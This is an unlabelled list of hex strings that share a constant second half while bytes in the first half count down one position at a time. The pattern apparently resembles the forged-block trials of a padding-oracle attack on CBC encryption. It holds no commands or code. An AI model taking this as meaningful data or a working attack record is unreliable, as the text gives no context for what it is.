00000063ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000062ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000061ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000060ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000005fec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000005eec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000ff5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000fe5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000fd5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000fc5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000fb5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000fa5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f95def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f85def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f75def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f65def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f55def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f45def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f35def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f25def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f15def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000f05def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ef5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ee5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ed5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ec5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000eb5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ea5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e95def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e85def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e75def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e65def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e55def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e45def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e35def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e25def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e15def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000e05def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000df5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000de5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000dd5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000dc5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000db5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000da5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d95def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d85def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d75def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d65def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d55def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d45def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d35def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d25def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d15def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000d05def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000cf5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ce5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000cd5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000cc5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000cb5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ca5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c95def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c85def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c75def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c65def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c55def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c45def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c35def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c25def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c15def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000c05def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000bf5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000be5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000bd5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000bc5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000bb5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ba5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b95def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b85def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b75def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b65def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b55def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b45def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b35def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b25def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b15def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000b05def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000af5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ae5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ad5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ac5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000ab5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000aa5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a95def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a85def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a75def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a65def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a55def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a45def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a35def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a25def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a15def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000a05def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00009f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00009e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00009d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00009c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00009b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00009a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000995def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000985def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000975def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000965def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000955def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000945def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000935def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000925def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000915def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000905def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00008f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00008e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00008d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00008c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00008b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00008a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000895def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000885def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000875def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000865def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000855def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000845def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000835def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000825def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000815def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000805def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00007f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00007e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00007d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00007c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00007b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00007a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000795def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000785def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000775def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000765def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000755def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000745def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000735def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000725def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000715def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000705def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00006f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00006e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00006d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00006c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00006b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00006a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000695def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000685def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000675def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000665def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000655def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000645def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000635def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000625def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000615def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000605def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00005f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00005e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00005d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00005c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00005b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00005a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000595def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000585def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000575def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000565def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000555def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000545def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000535def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000525def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000515def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000505def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00004f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00004e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00004d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00004c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00004b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00004a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000495def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000485def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000475def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000465def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000455def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000445def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000435def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000425def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000415def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000405def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00003f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00003e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00003d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00003c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00003b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00003a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000395def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000385def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000375def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000365def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000355def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000345def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000335def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000325def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000315def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000305def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00002f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00002e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00002d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00002c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00002b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00002a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000295def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000285def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000275def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000265def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000255def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000245def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000235def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000225def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000215def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000205def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00001f5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00001e5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00001d5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00001c5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00001b5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00001a5def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000195def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000185def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000175def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000165def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000155def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
0000145def1950519d18604378050822fe249615e3e8da834ab4e67cc0348cc4
00ff155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00fe155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00fd155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00fc155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00fb155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00fa155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f9155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f8155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f7155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f6155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f5155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f4155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f3155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f2155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f1155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00f0155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ef155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ee155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ed155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ec155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00eb155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ea155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e9155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e8155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e7155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e6155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e5155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e4155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e3155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e2155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e1155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00e0155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00df155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00de155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00dd155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00dc155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00db155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00da155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d9155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d8155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d7155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d6155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d5155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d4155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d3155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d2155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d1155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00d0155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00cf155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ce155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00cd155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00cc155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00cb155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ca155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c9155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c8155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c7155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c6155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c5155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c4155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c3155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c2155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c1155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00c0155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00bf155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00be155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00bd155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00bc155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00bb155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ba155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b9155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b8155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b7155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b6155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b5155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b4155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b3155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b2155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b1155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00b0155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00af155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ae155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ad155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ac155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00ab155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00aa155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a9155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a8155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a7155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a6155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a5155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a4155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a3155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a2155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a1155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
00a0155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
009f155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
009e155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
009d155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
009c155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
009b155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
009a155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0099155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0098155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0097155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0096155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0095155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0094155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0093155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0092155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0091155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0090155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
008f155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
008e155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
008d155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
008c155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
008b155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
008a155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0089155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0088155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0087155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0086155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0085155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0084155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0083155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0082155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0081155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0080155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
007f155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
007e155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
007d155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
007c155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
007b155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
007a155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0079155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0078155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0077155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0076155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0075155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0074155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0073155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0072155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0071155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0070155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
006f155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
006e155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
006d155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
006c155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
006b155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
006a155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0069155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0068155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0067155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0066155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0065155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
0064155cee1851509c19614279040923fe249615e3e8da834ab4e67cc0348cc4
ff7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
fe7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
fd7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
fc7b0a43f1074e4f83067e5d661b163cfe249615e3e8da834ab4e67cc0348cc4
